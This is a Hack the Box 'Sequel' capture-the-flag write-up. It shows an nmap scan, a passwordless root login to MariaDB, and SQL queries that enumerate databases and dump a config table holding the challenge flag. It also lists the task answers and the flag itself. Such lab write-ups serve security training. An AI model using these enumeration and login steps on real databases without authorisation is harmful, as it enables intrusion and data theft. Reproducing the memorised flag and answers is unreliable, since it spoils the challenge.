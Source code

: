 # Sequel
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Sequel
* Topic: [[SQL]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym SQL stand for? 
 - **Structured Query Language**
2. During our scan, which port running mysql do we find? 
- **3306**
3. What community-developed MySQL version is the target running? 
- **MariaDB**
4. What switch do we need to use in order to specify a login username for the MySQL service? 
- **-u**
5. Which username allows us to log into MariaDB without providing a password? 
- **root**
6. What symbol can we use to specify within the query that we want to display everything inside a table? 
- *
7. What symbol do we need to end each query with? 
- **;**

---
## Flag:
Nmap scan:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.95.232
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 17:36 EDT
Nmap scan report for 10.129.95.232
Host is up (0.065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 67
|   Capabilities flags: 63486
|   Some Capabilities: SupportsTransactions, SupportsCompression, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Support41Auth, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, ODBCClient, LongColumnFlag, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: 4:fr+{OVC.YY0$bEn|D|
|_  Auth Plugin Name: mysql_native_password
|_sslv2: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 205.29 seconds
```

MyQSL is running on port x. We can connect using `mysql`.

Command:

`mysql -h 10.129.148.58 -u root`

`-h`: Connect to host {IP}.

`-u`: Log on as user {user}.

```console
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.148.58 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

`show databases;` to print the contents of the database.

Remember the `;` at the end of the command.

```
MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.067 sec)
```

`use htb;` to select table 'htb'.

```
MariaDB [(none)]> use htb;

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

`show tables;` to show the contents of the table.

```
MariaDB [htb]> show tables;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.064 sec)
```

`select * from config;` show all entries in the 'config' table.

```
MariaDB [htb]> select * from config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.063 sec)
```

And we got the flag!

**Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

---
**Tags:** [[HackTheBox]] [[MariaDB]]